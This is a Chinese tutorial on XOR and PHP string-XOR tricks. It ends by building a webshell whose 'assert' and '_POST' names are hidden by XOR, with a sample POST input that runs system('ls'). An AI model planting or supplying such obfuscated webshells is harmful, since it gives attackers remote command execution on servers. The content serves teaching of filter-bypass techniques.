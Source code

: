 

# 异或原理：

异或（xor)是一个数学运算符，它应用于逻辑运算，异或的数学符号为“⊕”，计算机符号为“xor”

如果a、b两个值不相同，则异或结果为1。如果a、b两个值相同，异或结果为0。



运算法则：

1. a ⊕ a = 0

2. a ⊕ b = b ⊕ a

3. a ⊕b ⊕ c = a ⊕ (b ⊕ c) = (a ⊕ b) ⊕ c;

4. d = a ⊕ b ⊕ c 可以推出 a = d ⊕ b ⊕ c.

5. a ⊕ b ⊕ a = b.

6.若x是二进制数0101，y是二进制数1011；

则x⊕y=1110



# php异或特性：

https://www.php.net/manual/zh/language.operators.bitwise.php

If both operands for the &, | and ^ operators are strings, then the operation will be performed on the ASCII values of the characters that make up the strings and the result will be a string. In all other cases, both operands will beconverted to integers and the result will be an integer.

字符串^字符串=字符串

除此之外的情况=整数



## 字符串的异或操作是基于ascii码来进行的，例如：

```php
<?php
//@忽略notice输出
var_dump(@a^"1");//string(1) "P"
echo ord("a");//97
echo "\n";
echo ord("1");//49
echo "\n";
echo chr(97^49);//P
```



## 异或得到自己想要的任何字符：

异或的特性：

a^b=c

c^b=a

所以：如果我们想要得到P字符：

```php
$str=urldecode('%ff');//选定任意一个字符urldecode解码
$P=urlencode(@P^"$str");//让该字符与需要的字符异或，得到异或结果的url编码
echo $P;
```

实列：异或得到phpinfo

```php
$str=urldecode('%ff%ff%ff%ff%ff%ff%ff');
$phpinfo=urlencode(@phpinfo^"$str");
echo $phpinfo;
//解码回phpinfo
echo urldecode('%8F%97%8F%96%91%99%90')^urldecode($str);
echo "\n";
```



# 构造一个webshell

```php
    assert($_POST[_]);
    //异或得到
    (':__>)['^'{,,[[/')(${ %A0%A0%A0%A0%A0^%FF%F0%EF%F3%F4}{_});
    post:_=system('ls');
```
